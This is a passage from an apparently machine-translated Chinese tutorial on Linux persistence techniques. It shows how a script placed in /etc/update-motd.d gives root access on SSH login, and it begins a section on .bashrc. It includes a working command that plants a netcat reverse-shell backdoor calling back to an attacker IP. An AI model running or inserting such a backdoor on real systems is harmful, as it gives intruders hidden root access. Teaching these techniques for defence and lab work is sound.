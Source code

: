 Motd script

作为一个攻击者，我可以放一个新的脚本像 [reverse shell](https://www.techslang.com/definition/what-is-a-reverse-shell/) 作为后门，然后我可以设置一个 netcat 监听器。

```
root@pinkys-palace:/etc/update-motd.d# echo -e '#!/bin/sh\nnc 192.168.2.103 9001 -e /bin/bash &' > 20-backdoor && chmod +x 20-backdoor
```

现在，如果有人 SSH 登录到服务器，后门脚本将被执行，并发送一个外壳访问我的 netcat 监听器。

![](img/c2e3cb4a386ec528e9bd3ff0f8766643.png)

Backdoor triggered by SSH login

在上图中，我模拟了一个使用低权限帐户的 SSH 登录，但是您注意到了吗，我最终获得了 root 访问权限？

下面是[回答](http://manpages.ubuntu.com/manpages/xenial/en/man5/update-motd.5.htm):

> *……*
> 
> 每次登录时,/etc/update-motd.d/*中的可执行脚本由 pam_motd(8)作为根用户**执行，该信息连接在/var/run/motd 中。脚本执行的顺序由 run-parts(8)–lsbsysinit 选项决定(基本上是字母顺序，有一些注意事项)。**
> 
> *…*

## 3.用户的。bashrc——互动会议

`.bashrc`是伯恩 shell 使用的启动脚本之一，又名`bash`。如果有一个用户使用`bash`作为他们的登录 shell，那么这个`.bashrc`将为他们启动的每个交互会话执行。

以下是触发交互式会话的一些操作:

![](img/13c08a0ac289cf4e5bbbdfb1d41a5f74.png)
